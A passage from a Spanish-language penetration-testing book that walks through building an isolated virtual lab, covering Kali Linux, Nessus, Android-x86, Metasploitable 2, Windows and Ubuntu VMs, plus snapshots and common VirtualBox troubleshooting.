- Compatibilidad con el cifrado **LUKS** (**configuración de clave unificada de Linux**) con autodestrucción de emergencia (Nuke)
- Funciones de accesibilidad
- Modo forense
- USB en vivo con persistencia múltiple

Para comenzar, Kali Linux se puede encontrar en el sitio web oficial ( www.kali.org ) y en el dominio de Offensive Security ( https://www.offensive-security.com/kali-linux-vm-vmware-virtualbox-image-download/ ). Existen muchos métodos para configurar Kali Linux, como instalar desde un archivo ISO e importar una imagen virtual preconfigurada en un hipervisor. Para nuestro procedimiento de configuración, vamos a utilizar este último enfoque. Importar el dispositivo virtual es sencillo y lleva muy poco tiempo; también evita las posibilidades de configuración incorrecta que surgen con la instalación mediante un archivo ISO.

En mi experiencia personal, configurar Kali Linux utilizando la imagen virtual preconfigurada también funciona de manera más eficiente en la mayoría de las situaciones. Para comenzar, podemos seguir los siguientes pasos:

1. Vaya a https://www.offensive-security.com/kali-linux-vm-vmware-virtualbox-image-download/ y descargue la imagen de VMware de Kali Linux de 32 bits o de 64 bits, según la arquitectura de su sistema operativo. Elija la imagen de VMware o de VirtualBox, según el proveedor de su software de hipervisor:



1. Ya sea que hayas descargado la imagen de VirtualBox o de VMware, asegúrate de descomprimir el contenido. Si has descargado la imagen de VirtualBox, dentro de la carpeta habrá un archivo con una convención de nombres similar, como se muestra en la siguiente captura de pantalla:


1. Puedes hacer clic derecho en Archivo y elegir Abrir con | VirtualBox Manager :


1. A continuación, aparecerá el asistente **Importar dispositivo virtual. Simplemente haz clic en** Importar . El proceso de importación tardará unos minutos en completarse:



Una vez completado el proceso de importación, verá su nueva máquina virtual disponible en el panel de VirtualBox:



1. Importe Kali Linux en VMware Workstation. Asegúrate de haber descargado y descomprimido la carpeta de la imagen virtual. A continuación, se muestra el contenido de la carpeta extraída. Haz clic con el botón derecho en el archivo resaltado que se muestra en la siguiente captura de pantalla y selecciona Abrir con | VMware Workstation :



1. Se abrirá VMware Workstation y aparecerá la ventana Importar máquina virtual . Haz clic en Importar :



Este proceso debería tardar unos minutos en completarse. Una vez completado, la nueva máquina virtual estará disponible en su biblioteca en VMware Workstation:



La ventaja de importar una imagen virtual en lugar de instalar manualmente un sistema operativo mediante una imagen ISO es que toda la configuración se realiza de forma automática. La configuración incluye la creación de un disco duro virtual para el almacenamiento y la asignación de recursos, como un procesador, RAM y NIC. La importación de una imagen virtual elimina las posibilidades de que se produzcan errores de configuración durante la fase de instalación. Una vez que se completa la fase de importación, el usuario puede realizar ajustes posteriormente en la máquina virtual individual, como aumentar o reducir los recursos por máquina virtual.

### Conectar la red virtual a una máquina virtual

En este punto, hemos creado nuestro adaptador de red virtual e importado Kali Linux a nuestro hipervisor. Ahora es el momento de conectar nuestra máquina atacante, Kali Linux, a nuestra red virtual (conmutador virtual).

En primer lugar, lo guiaré a través de los pasos para configurar los recursos de hardware a través de Oracle VM VirtualBox:

1. Seleccione la máquina virtual Kali Linux y haz clic en Configuración :


2. Una vez que se haya abierto la ventana de configuración, selecciona la opción Red. Aquí podrás habilitar o deshabilitar los adaptadores de red en la máquina virtual actual. Selecciona la opción Adaptador solo para host y el adaptador de red virtual se seleccionará automáticamente debajo:



3. A continuación, realizaremos los mismos ajustes en VMware Workstation. En primer lugar, haz clic en Editar configuración de máquina virtual en la máquina virtual Kali Linux:



Se abrirá la ventana Configuración de la máquina virtual . Aquí, Puedes personalizar la configuración de cualquier componente de hardware dentro del menú del hipervisor.

4. Selecciona Adaptador de red y, a continuación, elija Personalizado: Red virtual específica | VMnet1 (solo host) :



Recuerda que el adaptador VMnet1 tiene nuestro esquema de IP personalizado.

1. Podemos encender nuestra máquina virtual Kali Linux para asegurarnos de que funciona correctamente. El nombre de usuario y la contraseña predeterminados para Kali Linux son root/ toor.
2. Una vez que haya iniciado sesión correctamente, tendrá acceso al escritorio:


Ahora tenemos una comprensión clara de cómo configurar una máquina virtual dentro de Oracle VM VirtualBox y VMware Workstation, y cómo configurar una red virtual dentro de cada aplicación de hipervisor. Pasemos a configurar aplicaciones adicionales y otros tipos de máquinas virtuales dentro de nuestro laboratorio.

### Instalación de Nessus

Cuando se adentra en el campo de las pruebas de penetración y la evaluación de vulnerabilidades, una herramienta con la que debe estar familiarizado es **Nessus** . Nessus es una de las herramientas de evaluación de vulnerabilidades más populares disponibles en el mercado. La aplicación Nessus se controla mediante una interfaz web que permite a sus usuarios crear escaneos personalizados. Además, Nessus contiene plantillas de escaneo predefinidas para varios tipos de industrias, como el escáner de cumplimiento **de la industria de tarjetas de pago** (**PCI**).

Tenable, el creador de Nessus, ha indicado que Nessus es capaz de detectar más de 47.000 **vulnerabilidades y exposiciones comunes** (**CVE**). Como futuro hacker ético o evaluador de intrusiones, el uso de Nessus durante la fase de auditoría de seguridad le ayudará significativamente a descubrir vulnerabilidades de seguridad rápidamente.

Nessus es compatible con muchas plataformas, como Windows y Kali Linux. La edición **Nessus Home es gratuita para uso personal y puede escanear hasta 16 direcciones IP por escaneo. Para obtener la edición Nessus Home, simplemente vaya a** https://www.tenable.com/products/nessus-home y complete el formulario de registro para obtener una licencia de activación. Después del registro, será redirigido al centro de descargas, donde podrá elegir una versión adecuada para su plataforma:



Si va a instalar Nessus en un sistema operativo Windows, el procedimiento es bastante sencillo. Descargue el archivo ejecutable de Windows y ejecútelo.

Sin embargo, para instalar Nessus en Kali Linux, siga estos pasos:

1. Abra la Terminal y ejecute los siguientes comandos para actualizar todas las aplicaciones actualmente instaladas en la plataforma:

```markup
apt-get update && apt-get upgrade
```
[2](notas.md)

1. Obtenga un código de activación de Tenable completando el formulario de registro en https://www.tenable.com/products/nessus/nessus-essentials .
2. Vaya a la página de descargas de Nessus en https://www.tenable.com/downloads/nessus y descargue la versión de 32 bits o de 64 bits, según la arquitectura de su sistema operativo:



1. Una vez que se haya descargado Nessus en Kali Linux, abra la Terminal, cambie el directorio a la Downloadscarpeta y comience la instalación usando el siguiente comando:

```markup
 dpkg -i Nessus-8.3.1-debian6_amd64.deb
```
[3](notas.md)

El resultado de ejecutar el comando anterior es el siguiente:



1. Una vez completada la instalación, utiliza el siguiente comando para iniciar el servicio Nessus en Kali Linux:

```markup
 /etc/init.d/nessusd start 
```

[4](notas.md)

Opcionalmente, si desea que el servicio Nessus se inicie automáticamente durante el proceso de arranque de Kali Linux, se puede utilizar el siguiente comando para habilitar esta función:

```markup
update-rc.d nessusd enable 
```

[5](notas.md)

1. Una vez finalizada la instalación en Kali Linux, acceda https://localhost:8834/ a su navegador web. En este punto, se le solicitará que cree una cuenta de usuario:



1. A continuación, se le solicitará que ingrese su licencia de Nessus para activar el producto. Necesitará el código de activación del *paso 2* para completar esta etapa:



1. Después de completar la fase de activación, Nessus intentará conectarse a Internet para descargar recursos adicionales. Este proceso debería tardar unos minutos en completarse:



1. Una vez que haya iniciado sesión, su panel de usuario estará disponible. Aquí podrá crear nuevos escaneos y plantillas y modificar los recursos existentes según sus preferencias:



A lo largo de este libro, exploraremos las capacidades de Nessus durante nuestras fases de pruebas de penetración.

Una vez que haya completado esta sección, podrá instalar y configurar el escáner de vulnerabilidades de Nessus en Kali Linux. En la siguiente sección, aprenderá a instalar Android como una máquina virtual dentro de su entorno de laboratorio.

### Configuración de emuladores de Android

Como evaluador de penetración o hacker ético, se encontrará con muchos tipos diferentes de objetivos y sistemas operativos en el campo. Un tipo de sistema operativo que se ha abierto camino en el campo de la ciberseguridad es la plataforma móvil Android. En esta sección, descubriremos cómo configurar la versión 4.4 del sistema operativo Android como una máquina virtual que formará parte de su entorno de laboratorio de pruebas de penetración.

Tenga en cuenta que www.osboxes.org tiene un repositorio de imágenes virtuales de casi todos los tipos de sistemas operativos, incluidos los de escritorio, servidor e incluso los sistemas operativos móviles. Este sitio web le permite descargar una imagen virtual de su elección y cargarla sin problemas en un hipervisor, como Oracle VM VirtualBox o VMware Workstation.

Aprendamos a crear una máquina virtual Android dentro de su laboratorio de pruebas de penetración:

1. En primer lugar, vaya a https://www.osboxes.org/android-x86/ para descargar el sistema operativo móvil Android para su laboratorio.
2. Busque la versión Android-x86 4.4-r4 y descargue VirtualBox o la imagen virtual VMware para su hipervisor:



1. Una vez que el archivo se haya descargado en su computadora de escritorio, extraiga la carpeta comprimida para ver el contenido.
2. A continuación, haz clic derecho sobre el .ovfarchivo y elija la opción Abrir con, luego selecciona las opciones VMware o VirtualBox, como se muestra en la siguiente captura de pantalla:



1. Aparecerá el asistente de importación. Seleccione Importar para comenzar el proceso:



El proceso de importación tarda unos minutos en completarse y la nueva máquina virtual Android aparecerá en su biblioteca de hipervisor.

1. He optado por utilizar la siguiente configuración en mi máquina virtual Android. Sin embargo, tienes la opción de aumentar o disminuir los recursos de tu máquina virtual según lo consideres conveniente. Asegúrate de que el adaptador de red virtual esté asignado a Custom (VMnet1), como se muestra en la siguiente captura de pantalla:



1. Después de iniciar la máquina virtual Android, se le presentará una interfaz una vez que esté completamente cargada. La funcionalidad completa de Android 4.4 está disponible dentro de su máquina virtual .

Una vez que la máquina virtual Android está encendida, actúa como un dispositivo Android físico real en la red de su laboratorio. Esto simula un entorno que no solo tiene sistemas operativos típicos, como Windows y Linux, sino también plataformas móviles, como Android. Ahora que tiene una máquina virtual Android dentro de su laboratorio, veamos cómo configurar una máquina virtual vulnerable basada en Linux en la siguiente sección.

### Instalación de Metasploitable 2

Como se mencionó anteriormente, el equipo de Rapid7 ( www.rapid7.com ) creó la máquina virtual Metasploitable con el propósito de brindar capacitación y concientización sobre ciberseguridad. En esta sección, lo guiaré por los pasos necesarios para configurar una máquina virtual Metasploitable en su laboratorio:

1. En primer lugar, debes descargar el archivo de imagen virtual desde https://sourceforge.net/projects/metasploitable/files/Metasploitable2/ . Una vez descargado en tu computadora, extrae la carpeta ZIP para ver el contenido.
2. A continuación, haz clic derecho en el siguiente archivo resaltado y elija la opción de importar o abrir con un hipervisor de su elección:



1. Una vez finalizado el proceso de importación, la nueva máquina virtual aparecerá en su biblioteca en el hipervisor (VirtualBox o VMware). Asegúrate de que el adaptador de red esté configurado en Personalizado (VMnet1), al igual que la red virtual de nuestro laboratorio:



1. Para probar la máquina virtual, enciéndela y déjala arrancar. Una vez que se complete el proceso de arranque, verás que las credenciales de inicio de sesión (nombre de usuario/contraseña) son parte del banner del sistema msfadmin/msfadmin:



1. Inicia sesión en la máquina virtual con las credenciales y utiliza el comando `ifconfig` para verificar que tenga una dirección IP válida:



Asegúrate de haber registrado las direcciones IP de cada máquina virtual. Las direcciones IP que utilizaré en los capítulos restantes del libro pueden ser un poco diferentes a las suyas, pero los sistemas operativos y las configuraciones de las máquinas virtuales serán las mismas.

Ahora tienes un sistema operativo vulnerable basado en Linux en tu laboratorio. Siempre se recomienda tener una mezcla de varios sistemas operativos objetivo en un laboratorio cuando se practican técnicas de pruebas de penetración y se perfeccionan las habilidades. Este método te permite aprender a realizar ataques en una variedad de objetivos diferentes, lo cual es importante ya que una red corporativa generalmente tiene una mezcla de muchos dispositivos y sistemas operativos diferentes. No quieres participar en una prueba de penetración en la que la organización objetivo tenga principalmente dispositivos Linux pero tus habilidades estén orientadas solo a sistemas basados en Windows; ¡esto sería una mala señal para ti como evaluador de penetración! Por lo tanto, emular una red corporativa en un laboratorio lo más fielmente posible te ayudará a mejorar tus habilidades .


## Resumen

En este capítulo, comenzamos con un análisis de la importancia de tener nuestro propio entorno de laboratorio aislado para practicar la capacitación en seguridad ofensiva. Profundizamos en los conceptos de virtualización y analizamos cómo nos ayudará ahora y en el futuro. Más adelante en el capítulo, cubrimos la configuración de una red virtual tanto en Oracle VM VirtualBox como en VMware Workstation, ya que estas redes se utilizarán para interconectar todas nuestras máquinas virtuales (nuestras máquinas de atacantes y víctimas). Luego, analizamos la implementación de Kali Linux y Android en nuestro laboratorio de pruebas de penetración.

Ahora que tenemos una comprensión fundamental del diseño y la construcción de nuestro entorno de laboratorio, continuemos implementando sistemas operativos basados en Windows y Linux en nuestro próximo capítulo.


## Preguntas

1. ¿Qué tipo de hipervisor se instala sobre un sistema operativo host?
2. ¿Cuáles son algunos de los beneficios de la virtualización?
3. ¿Cuáles son algunos ejemplos de hipervisores gratuitos?
4. ¿Cómo se instala un paquete/aplicación sin conexión en Kali Linux?
5. ¿Cómo se llama habitualmente a un sistema operativo dentro de un hipervisor?


## Otras lecturas

Se recomiendan los siguientes enlaces para lectura adicional:

- **Documentación de Kali Linux**: https://docs.kali.org/
- **Guía del usuario de Nessus**: https://docs.tenable.com/Nessus.htm
- **Virtualización**: https://www.networkworld.com/article/3234795/what-is-virtualization-definition-virtual-machine-hypervisor.html


# Configuración de Kali - Parte 2

En el capítulo anterior, comenzamos a construir nuestro propio laboratorio de pruebas de penetración. Sin embargo, un entorno de laboratorio no está completo sin la instalación de dos de los sistemas operativos más populares: Microsoft Windows y Ubuntu. Como evaluador de penetración, siempre se recomienda practicar sus habilidades en entornos Windows y Linux, ya que ambos son utilizados en entornos corporativos por los usuarios finales, como empleados y miembros del personal ejecutivo, a diario. Por lo general, los administradores de sistemas no siempre instalan las últimas actualizaciones de seguridad en los sistemas de sus empleados, lo que deja a las computadoras vulnerables a las últimas amenazas cibernéticas. Un evaluador de penetración debe aprender a realizar varios ataques en Windows y Linux.

En este capítulo se tratarán los siguientes temas:

- Instalación de Windows como **máquina virtual** (**VM**)
- Instalación de Ubuntu 8.10
- Solución de problemas de Kali Linux


## Requerimientos técnicos

Los siguientes son los requisitos técnicos para este capítulo:

- Oracle VM VirtualBox o VMware Workstation Pro
- Microsoft Windows 10
- Servidor Microsoft Windows 2016
- Escritorio Ubuntu
- Servidor Ubuntu
- Kali Linux


## Instalación de Windows como máquina virtual

Dado que cada vez más organizaciones utilizan el sistema operativo Windows como sistema operativo principal para las estaciones de trabajo o escritorios de sus empleados, es necesario comprender cómo realizar una prueba de penetración en la plataforma Windows.

Uno de los beneficios que ofrece Microsoft es la prueba de 90 días de sus sistemas operativos a través del [Centro de evaluación de Microsoft](https://www.microsoft.com/es-es/evalcenter/). En esta sección, demostraré cómo configurar una máquina virtual Windows en nuestro laboratorio de pruebas de penetración.

Primero, deberás descargar la imagen ISO de Windows 10 y Windows Server 2016 ( o 2019) utilizando las siguientes URL: 
- **Windows 10**: https://www.microsoft.com/es-es/evalcenter/evaluate-windows-10-enterprise
- **Windows Server 2016**: https://www.microsoft.com/en-us/evalcenter/evaluate-windows-server-2016

Los procedimientos de instalación para Windows Desktop y Windows Server son los mismos.

1. Una vez que el archivo ISO se haya descargado correctamente, abra su hipervisor y selecciona Nueva máquina virtual :




Si utilizas VMware, el Asistente para nueva máquina virtual le solicitará que continúes con la configuración en el modo típico (recomendado) o personalizado (avanzado) . Para este ejercicio, he elegido la opción típica, ya que consta de unos pocos pasos simples:




1. A continuación, seleccione la opción Archivo de imagen de disco de instalación (iso): para agregar el archivo ISO haciendo clic en Explorar. Una vez que el archivo se haya agregado correctamente, haz clic en Siguiente para continuar:



2. VMware le presentará una ventana personalizada que le permitirá introducir la clave de producto (obtenida en el Centro de evaluación de Microsoft durante la fase de registro) y crear una cuenta de administrador durante la fase de instalación. Simplemente complete los datos, utiliza el cuadro desplegable para seleccionar la versión del sistema operativo que está a punto de instalar y haz clic en Siguiente :



3. A continuación, tendrás la opción de nombrar la máquina virtual y elegir una ubicación para almacenar sus configuraciones. Este paso se puedesdejar como configuración predeterminada



4. A continuación, tendrá la opción de crear un nuevo disco duro virtual para la máquina virtual de Windows . Elegí un tamaño de 100 GB y dividí sus archivos en varias partes para facilitar su portabilidad:



Puedes elegir cualquier tamaño de disco duro, siempre que sea el recomendado o superior. Los requisitos del sistema se pueden encontrar en https://docs.microsoft.com/en-us/windows-server/get-started/system-requirements .

5. La ventana final le mostrará un resumen de las configuraciones. Puedes personalizar los recursos de hardware haciendo clic en la opción Personalizar hardware... :



6. Al hacer clic en Finalizar, la máquina virtual Windows 10/Server 2016 aparecerá en tu biblioteca. También puedes modificar las configuraciones de hardware cuando la máquina virtual esté apagada.

Ahora es el momento de encender la máquina virtual Windows. Asegúrate de elegir el idioma, la hora y el formato de teclado correspondientes.
1. Elije la opción Instalar ahora para comenzar la fase de instalación.
2. Elige la versión de Windows que deseas instalar. Si utilizas Windows Server 2016, utiliza la edición Datacenter. Si utilizas Windows 10, elige la edición Enterprise:



3. A continuación, deberás leer y aceptar el **Acuerdo de licencia de usuario final** (**EULA**), seguido del tipo de instalación en la **unidad de disco duro** virtual (**HDD**). Como se trata de una nueva instalación, seleccione la opción Personalizada: Instalar solo Windows (avanzada), como se muestra en la siguiente captura de pantalla:



4. Selecciona el disco duro virtual como destino de la instalación, como se muestra en la siguiente captura de pantalla, y haz clic en Siguiente para continuar:



5. El proceso de instalación puede tardar un tiempo, dependiendo de la cantidad de recursos de CPU y RAM que se hayan asignado a la VM .

Una vez completado este proceso, Windows le presentará una ventana de inicio de sesión.

Ahora que hemos instalado una máquina virtual Windows, veremos cómo crear cuentas de usuario adicionales en Microsoft Windows.

### Crear una cuenta de usuario

En esta sección, veremos el proceso de creación de una cuenta de usuario en Windows:

1. En primer lugar, debes acceder al Panel de control y hacer clic en la opción Cuentas de usuario .
2. Verás todas las cuentas de usuario locales en tu sistema. Selecciona Administrar otra cuenta.
3. A continuación, haz clic en Agregar una cuenta de usuario.
4. Windows 10/Server 2016 te proporcionará una ventana que te solicitará varios detalles, como nombre de usuario, contraseña y una pista (para ayudarlo a recordar tu contraseña) para que puedas crear una nueva cuenta de usuario en el sistema local.

Ahora que tienes el conocimiento para crear nuevas cuentas de usuario, veremos cómo deshabilitar las actualizaciones automáticas en Microsoft Windows Server.

### Cómo inhabilitar las actualizaciones automáticas

Los proveedores ofrecen actualizaciones de sus productos de software y sistemas operativos por diversos motivos, como agregar nuevas funciones, mejorar el rendimiento y solucionar problemas como errores de seguridad y fallas. Deshabilitar las actualizaciones automáticas en Windows garantizará que su sistema operativo mantenga el mismo nivel de seguridad que se estableció en la instalación mientras practica en el laboratorio.

En Windows 10 y Windows Server 2016, Microsoft ha eliminado la función de deshabilitar Windows Update desde el Panel de control. En esta sección, demostraré cómo deshabilitar la función Windows Update en Windows Server 2016:

1. En primer lugar, abra el Símbolo del sistema e ingrese, como se muestra en la siguiente captura de pantalla: ``sconfig``



2. Aparecerá la siguiente pantalla. Utiliza la opción 5 para acceder a Windows Update Settings:



3. El menú interactivo te preguntará cómo deseas que Windows gestione la comprobación e instalación de actualizaciones (A)utomatic: (D)ownloadOnly, o (M)anual. Elegiremos la opción Manual:



Luego, Windows confirmará nuestra selección y *Manual* garantizará que Windows no busque actualizaciones sin nuestro permiso.

Ahora que puedes deshabilitar las actualizaciones automáticas, veamos cómo configurar una dirección IP estática en tu máquina virtual Windows.

### Configurar una dirección IP estática

Es muy importante configurar direcciones IP estáticas en los recursos y dispositivos de la red. Una dirección IP estática garantizará que la dirección IP no cambie y, por lo tanto, que los usuarios de la red siempre puedan acceder a los recursos o al servidor una vez que se establezca la conectividad de red.

Tener un servidor dentro de una organización o dentro de nuestro laboratorio requerirá definitivamente una dirección que no cambie. Para ello, sigue estos pasos:

1. Para comenzar, inicia sesión en Windows Server 2016 y haz clic en el ícono de Windows en la esquina inferior izquierda para ver el menú Inicio . Haz clic en Administrador de servidores, como se muestra en la siguiente captura de pantalla:



2. El Administrador de servidores es un panel único que permite al administrador de servidores controlar, administrar y supervisar Windows Server mediante una **interfaz gráfica de usuario** (**GUI**). En el lado izquierdo de la ventana, selecciona Servidor local y, a continuación, haz clic en la sección Ethernet0, como se muestra en la siguiente captura de pantalla:



3. Se abrirá la ventana **Conexiones de red**, que muestra todos los adaptadores de red que están disponibles en tu máquina virtual Windows Server 2016. Para agregar una dirección IP estática a un adaptador de red, simplemente haz clic derecho en el adaptador y selecciona Propiedades, como se muestra en la siguiente captura de pantalla:


4. Selecciona Protocolo de Internet versión 4 (TCP/IPv4) | Propiedades, como se muestra en la siguiente captura de pantalla:



5. Ahora, tendrás la opción de asignar una dirección IP estática, una máscara de subred y una puerta de enlace predeterminada, así como configuraciones de **servidor de nombres de dominio** (**DNS**):



Asegúrate de que las configuraciones de tu dirección IP se encuentren dentro de la misma subred que tu servidor DHCP (de tu hipervisor) y las otras máquinas virtuales . Su dirección IP debe estar entre 10.10.10.2 y 10.10.10.254, la máscara de subred debe ser 255.255.255.0 y la puerta de enlace predeterminada debe ser 10.10.10.1 para cada una de las máquinas virtuales de tu laboratorio.

Ahora que puedes configurar direcciones IP estáticas para Windows, veamos cómo agregar interfaces de red adicionales.

### Agregar interfaces adicionales

A veces, tener una **tarjeta de interfaz de red** (**NIC**) adicional puede ser útil de muchas maneras, como para garantizar la redundancia de la red e incluso habilitar la formación de equipos NIC, que combina más de una NIC en una interfaz lógica para lograr un rendimiento combinado.

Agreguemos una NIC adicional a una VM:

1. Para agregar una NIC adicional a su VM, simplemente accede a la configuración de la VM:



2. Haz clic en Agregar... Esto te permitirá elegir entre una variedad de componentes de hardware virtuales:



3. Selecciona Adaptador de red y haz clic en Finalizar, como se muestra en la siguiente captura de pantalla:



1. La nueva NIC se agregará a la VM y tendrás la opción de configurarla según tus preferencias:



Cuando el sistema operativo se haya reiniciado, la NIC virtual estará presente dentro del Centro de uso compartido de red en Windows.

Una vez completada esta sección, ya habrás hecho lo siguiente:

- Microsoft Windows está instalado
- Se creó una cuenta de usuario
- Actualizaciones automáticas de Windows deshabilitadas
- Configurada una dirección IP estática en Windows Server
- Se agregaron interfaces adicionales para una máquina virtual a través del hipervisor

En la siguiente sección, profundizaremos en la instalación de Ubuntu dentro de nuestro laboratorio de pruebas de penetración. 

## Instalación de Ubuntu 8.10

En esta sección, instalaremos una máquina virtual Ubuntu (Linux) en nuestro entorno de laboratorio con fines de prueba. Como mencioné anteriormente, un excelente evaluador de penetración o hacker ético es alguien que tiene mucho conocimiento y experiencia en muchos sistemas operativos.

Es muy útil tener un amplio conocimiento de los distintos tipos de entornos y sistemas operativos, ya que esto facilitará enormemente la auditoría de seguridad y las pruebas de penetración. En nuestro laboratorio, utilizaremos el sistema operativo Ubuntu 8.10.

El sistema operativo Linux viene en muchas versiones, como Fedora, CentOS, Arch Linux, openSUSE, Mint Linux, Ubuntu y RedHat.

Hay tres formas de comenzar a instalar Ubuntu en su laboratorio, como se indica a continuación:

- Vaya al sitio web de Ubuntu en www.ubuntu.com y vaya a la página de descarga para obtener una copia de la última versión de Ubuntu.
- Dado que nuestro ejercicio va a utilizar una versión específica de Ubuntu, buscaremos Ubuntu 8.10en Google para encontrar rápidamente el repositorio oficial relevante:



- También puedes usar http://old-releases.ubuntu.com/releases/8.10/ para descargar imágenes ISO de Ubuntu Server y Desktop.

Una vez que el archivo ISO se haya descargado correctamente en su computadora de escritorio, cree un entorno virtual dentro de Oracle VM VirtualBox o VMware Workstation utilizando los siguientes parámetros:

- **CPU**: 1 núcleo
- **RAM**: 1-2 GB
- **Disco duro**: 60 GB
- **Tarjeta de red**: VMnet1

También puedes ajustar las configuraciones de hardware como creas conveniente.

Como recordarás, en la sección anterior, *Instalación de Windows como máquina virtual*, repasamos el proceso de configuración de un entorno virtual. El procedimiento para crear un entorno virtual para Linux es básicamente el mismo que para Windows cuando se utiliza un hipervisor, las únicas diferencias están en la elección de la ISO de Ubuntu (sistema operativo Linux) y en el uso de los parámetros especificados anteriormente (es decir, para la CPU, la RAM, etc.).

Las siguientes son las instrucciones para instalar Ubuntu Server en nuestro laboratorio:

1. Una vez que hayas encendido la máquina virtual, aparecerá la siguiente pantalla. Selecciona Instalar servidor Ubuntu y presiona *Entrar* :



2. El asistente de configuración te pedirá que especifiques tu idioma.
3. Luego, se te pedirá que elijas tu país o territorio.
4. El asistente de instalación te preguntará si deseas que se detecte la distribución de tu teclado. Selecciona No y continúa:



5. Durante el proceso de configuración, se te pedirá que asignes un nombre de host al servidor Ubuntu, que puedes dejar como predeterminado, como se muestra en la siguiente captura de pantalla:



6. Durante esta fase, también se te solicitará que especifiques tu zona horaria. Elije la zona adecuada.
7. Seleccione la opción **Guiada: usar todo el disco** y presione *Entrar* para continuar. Esto permitirá que el sistema operativo Ubuntu borre toda la unidad de disco y se instale en ella, ocupando así todo el disco:


8. Se te pedirá que elijas el destino donde deseas instalar el servidor Ubuntu; elije el disco que tiene **sda** (partición de disco primaria) entre paréntesis:



**sda** se utiliza para representar la partición primaria de la unidad de disco principal en el sistema operativo Linux. Esta es la ubicación donde normalmente instalarías cualquier sistema operativo en una unidad de disco.

9. Antes de ejecutar la instalación, seleccione Sí para confirmar las configuraciones:



10. A continuación, se te solicitará que proporciones tu nombre completo y que crees una cuenta de usuario. A continuación, asigna una contraseña a la cuenta de usuario.
11. Una vez que se haya completado el proceso de creación de la cuenta de usuario, se te preguntará si deseas configurar un directorio privado cifrado. Como es opcional, yo he utilizado la opción predeterminada ( No ), como se muestra en la siguiente captura de pantalla:


12. En este punto, el proceso de instalación tardará unos minutos en completarse. Después, se te solicitará que configures el reloj del sistema:



13. A continuación, especifica cómo el sistema operativo debe buscar actualizaciones. He elegido la opción **Sin actualizaciones automáticas**, como se muestra en la siguiente captura de pantalla:



14. En la siguiente pantalla, aún puedes elegir instalar varios servicios. He utilizado la configuración predeterminada (sin software ni servicio seleccionado) una vez más y he seleccionado Continuar :



15. Una vez completada la instalación, el servidor Ubuntu se iniciará en su ventana de inicio de sesión, como se muestra en la siguiente captura de pantalla:



Tu máquina virtual Ubuntu ahora está configurada y lista para futuros ejercicios.

Ahora que has instalado algunas máquinas virtuales en tu entorno de laboratorio virtual, tomemos unos minutos más para repasar y analizar la importancia de crear **instantáneas** periódicamente cuando se trabaja con virtualización.

## Creación y uso de instantáneas

La creación de una instantánea puede ahorrarte mucho tiempo a la hora de restaurar el estado anterior de una máquina virtual . Una instantánea funciona como un punto de restauración del sistema instantáneo. Tomar instantáneas de una máquina virtual antes y después de realizar cambios importantes te ayudará a recuperarte de cualquier problema crítico que pueda estar experimentando en una máquina virtual .

Para crear una instantánea tanto en VirtualBox como en VMware Workstation, realiza los siguientes pasos:

1. En VirtualBox, selecciona la VM de tu elección.
2. Haz clic en el ícono de menú, como se resalta en la siguiente captura de pantalla, y selecciona Instantáneas .

1. En VMware Workstation, selecciona la máquina virtual que desees. El menú de instantáneas de VMware Workstation Pro se encuentra en la barra de herramientas, como se indica en la siguiente captura de pantalla, en el lado derecho:



Recomendaría crear una instantánea una vez que la instalación de una máquina virtual se haya realizado correctamente, y antes y después de realizar cualquier cambio o configuración importante en una máquina virtual. La creación de una instantánea utiliza espacio en disco en tu unidad de almacenamiento local. Sin embargo, las instantáneas se pueden eliminar en cualquier momento.

Una vez completada esta sección, ahora podrás instalar Linux de manera eficiente dentro de un entorno virtualizado y comprender los beneficios de trabajar con instantáneas.


## Solución de problemas de Kali Linux

Ahora que tienes acceso a Kali Linux, es posible que tengas algunos problemas, como los siguientes:

- Incompatibilidad entre adaptador de red y USB
- Problemas de memoria de la máquina virtual

Veamos cómo resolver estos problemas si surgen.

## Incompatibilidad entre adaptador de red y USB

Uno de los problemas más comunes que encuentran los estudiantes después de importar la máquina virtual Kali Linux en VirtualBox es la incompatibilidad. Esta incompatibilidad suele estar relacionada con el adaptador de red o la configuración USB en VirtualBox. Si estos problemas no se resuelven, la máquina virtual no podrá iniciarse.

Para determinar si hay un problema, podemos realizar las siguientes acciones:

1. Abra la configuración de la máquina virtual en Oracle VM VirtualBox.
2. Si ve el mensaje "Se detectaron configuraciones no válidas", la máquina virtual no podrá iniciarse. Haz clic en uno de los íconos (como el ícono de red o el ícono USB) y aparecerá el mensaje de error correspondiente.

La siguiente captura de pantalla indica que hay un problema con el adaptador de red virtual en la máquina virtual. Como podemos ver, no hay ningún adaptador conectado. Realiza las siguientes acciones:

1. Simplemente haz clic en el menú desplegable Nombre, como se muestra en la siguiente captura de pantalla.
2. Selecciona un adaptador de red apropiado, como el **Adaptador 1**, para resolver el problema:



Ahora que hemos solucionado el problema potencial con el adaptador de red, veamos qué sucede si el bus de software USB es incompatible. Normalmente verás un ícono USB en la parte inferior de la ventana Configuración. Al hacer clic en él, aparecerá el siguiente mensaje:



El uso del paquete de extensión de VirtualBox resolverá este problema al habilitar USB 2.0 o 3.0. Esto garantizará que la máquina virtual sea compatible y pueda enviar y recibir datos a los puertos USB del host.

Para resolver este problema, simplemente accede a la configuración USB y selecciona el controlador USB apropiado (preferiblemente USB 1.1 o 2.0), como se muestra en la siguiente captura de pantalla:



En la interfaz de configuración de Oracle VM VirtualBox, si observa con atención, la parte inferior de la ventana incluye íconos con señales de advertencia. Si pasa el cursor sobre cada ícono en la parte inferior, obtendrá una descripción del problema que impide que se inicie la máquina virtual .

## Problemas de memoria de la máquina virtual

A veces, muchos estudiantes crean una máquina virtual y asignan más memoria de la que está disponible para el hipervisor. Esto puede provocar que la máquina virtual no se inicie o que haya inestabilidad en el sistema operativo anfitrión. Para resolver este problema, haz lo siguiente:

1. Abre la configuración de la máquina virtual .
2. Abre la pestaña Sistema .
3. A continuación, ajusta la memoria base para que quede dentro de la zona verde (aquí estamos hablando de memoria de acceso aleatorio):



El hipervisor siempre te informará de cualquier problema. Sin embargo, asegúrate de habilitar la función de virtualización en tu procesador. Para ello, tendrás que acceder a la configuración BIOS/UEFI de tu computadora para activar la virtualización.

Si encuentras alguno de estos problemas, ahora cuentas con las respuestas para solucionarlos.


## Resumen

Durante el transcurso de este capítulo, continuamos con el capítulo anterior y ampliamos nuestro entorno de laboratorio mediante la implementación y configuración de máquinas virtuales Windows y Ubuntu . Además, analizamos los dos problemas más comunes que se encuentran al implementar Kali Linux en un entorno virtual.

